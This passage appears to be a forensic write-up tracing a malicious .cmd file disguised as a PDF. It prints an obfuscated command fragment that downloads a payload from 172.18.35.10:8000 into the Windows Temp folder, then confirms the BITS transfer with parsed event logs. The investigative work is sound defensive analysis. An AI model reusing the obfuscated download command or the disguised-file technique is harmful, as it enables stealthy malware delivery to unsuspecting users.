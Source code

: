 ```

://172.18.35.10:8000/amanwhogetsnorest.jpg%LzKV:~50,1%%LzKV:~23,1%:\Windows\Temp\amanwhogetsnorest.jpg


```

![](images/stringsoutput2.png)

### Confirmation via Event Log Analysis
To validate whether this file was actually downloaded, I analyzed **Windows Event Logs** using **EvtxECmd from EZ Tools**. Within the parsed logs, I found an event containing the following data:

```json

{"EventData":{"Data":[{"@Name":"transferId","#text":"d7f0f55b-c556-4c70-8bd2-5eb7620533aa"},{"@Name":"name","#text":"Nothing"},{"@Name":"Id","#text":"13ca578d-87e4-4303-baae-9c1ab4ccccd9"},{"@Name":"url","#text":"http://172.18.35.10:8000/amanwhogetsnorest.jpg"},{"@Name":"peer"},{"@Name":"hr","#text":"0"},{"@Name":"fileTime","#text":"2024-02-03 07:30:36.0000000"},{"@Name":"fileLength","#text":"3816"},{"@Name":"bytesTotal","#text":"3816"},{"@Name":"bytesTransferred","#text":"3816"},{"@Name":"proxy"},{"@Name":"peerProtocolFlags","#text":"0"},{"@Name":"bytesTransferredFromPeer","#text":"0"},{"@Name":"AdditionalInfoHr","#text":"0"},{"@Name":"PeerContextInfo","#text":"0"},{"@Name":"bandwidthLimit","#text":"18446744073709551615"},{"@Name":"ignoreBandwidthLimitsOnLan","#text":"False"}]}}


```

_The following image shows the parsed **Windows Event Logs** related to a BITS (Background Intelligent Transfer Service) transfer, revealing key findings:_

- **Event IDs:**
    - `59` - BITS transfer has started
    - `61` - BITS transfer has stopped
    - `60` - BITS transfer has completed
- **Timestamp:** The transfer occurred between `2024-02-03 07:34:23 UTC` and `2024-02-03 07:34:37 UTC`.
- **Significance:** These events confirm that a file named **`amanwhogetsnorest.jpg`** was downloaded from **`http://172.18.35.10:8000/`** using **BITS**, a legitimate Windows service often abused by attackers for stealthy file transfers.
- **Highlighted Line Explanation:** The red-marked log entry (`Event ID 60`) confirms that the **entire file (3816 bytes) was successfully transferred**, proving that the payload was successfully delivered to the system.
![](images/bits.png)
Additionally, this log allows me to **corroborate the full URL** and **validate the execution of the command found within the malicious `SANS SEC401.pdf .cmd` file**, further confirming its role in the attack sequence.
### Conclusion
The log indicates that **data was successfully transferred**, confirming that the file `amanwhogetsnorest.jpg` was downloaded from the external host.
